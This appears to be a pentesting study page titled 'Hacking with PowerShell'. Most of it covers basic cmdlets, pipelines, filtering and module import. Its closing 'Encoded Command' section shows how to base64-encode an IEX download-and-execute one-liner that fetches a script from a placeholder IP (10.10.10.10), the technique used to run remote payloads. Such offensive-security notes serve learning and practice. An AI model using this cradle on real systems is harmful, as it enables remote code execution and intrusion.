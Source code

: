 ```yaml
---
title: Hacking with PowerShell
category: Other
order: 2
---
```


Basic explanation about what is Powershell and how we can use it in out hacking days.

# What is Powershell?

Powershell is the Windows Scripting Language and shell environment that is built using the **.NET Framework.**

Most Powershell commands, called cmdlets, are written in .NET. Unlike other scripting languages and shell environments, the output of these cmdlets are objects, making Powershell somewhat object oriented.

> **Note**: The normal format of cmdlet is represented using **Verb-Noun.** Ex: **Get-Command**

Common verbs used are the[ following ones:](https://docs.microsoft.com/en-us/powershell/scripting/developer/cmdlet/approved-verbs-for-windows-powershell-commands?view=powershell-7)

* Get
* Start
* Stop
* Read
* Write
* New
* Out

# Using Get-Help

`Get-Help` displays information about a cmdlet. To get help about a particular command, run the following:

```powershell
Get-Help cmdlet
Get-Help cmdlet -Full
Get-Help cmdlet -Examples
```

> **Note**: To show some examples execute **Get-Help cmdlet -Examples**

# **Using Get-Command**

`Get-Command` gets all the cmdlets installed on the current Computer.

Running `Get-Command Verb-*` or `Get-Command *-Noun` filters the search.

# Object Manipulation

If we want to actually maniputare the output, we need to figure out a few things:

* Passing output to other cmdlets.
* Using specific object cmdlets to extract information.

To pas the output to another cmdlet like bash scripting is with the Pipeline "\|".

```powershell
Verb-Noun | Get-Member -MemberType Equals
```

# Creating Objects From Previous cmdlets

One way of manipulating objects is pulling out the properties from the output of a cmdlet and creating a new object. This is done using the `Select-Object` cmdlet.

```powershell
Get-ChildItem | Select-Object -Property Mode, Name
```

# Filtering Objects

When retrieving output objects, you may want to select objects that match a very specific value. You can do that using the `Where-Object`.

```powershell
Verb-Noun | Where-Object -Property PropertyName -operator Value
Verb-Noun | Where-Object {$_.PropertyName -operator Value}
```

This are the[ following operators](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/where-object?view=powershell-6):

* **-like**: Contains but not exact.
* **-contains**: Exact match for the specified value.
* **-eq:** Equals to.
* **-gt:** Greater than.

# Sort Objects

May you need to sort the output of a cmdlet in order to extract the information more efficiently. You can do this with `Sort-Object` cmdlet.

```powershell
Verb-Noun | Sort-Object
```

# Importing modules

It is also posible to import our self modules.

```powershell
Import-Module <modulepath>.ps1
. ./<modulepath>.ps1
```

Onced imported we can list all commands that we previously imported.

```powershell
Get-Command -Module <modulename>
```

# Encoded Command

We can use a Base64 payload to avoid problems with of notation or quotes. We can use parameters `-EncodedCommand` or `-enc` to specify that the payload will be encoded.

We need to use `Unicode` encoding instead of `UTF-8` or `ASCII` at base64 conversion.

* PowerShell:

```powershell
$str = 'IEX ((new-object net.webclient).downloadstring("http://10.10.10.10/a"))'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
```

* Bash:

```bash
str='IEX ((new-object net.webclient).downloadstring("http://10.10.10.10/a"))'
echo -en $str | iconv -t UTF-16LE | base64 -w 0
```
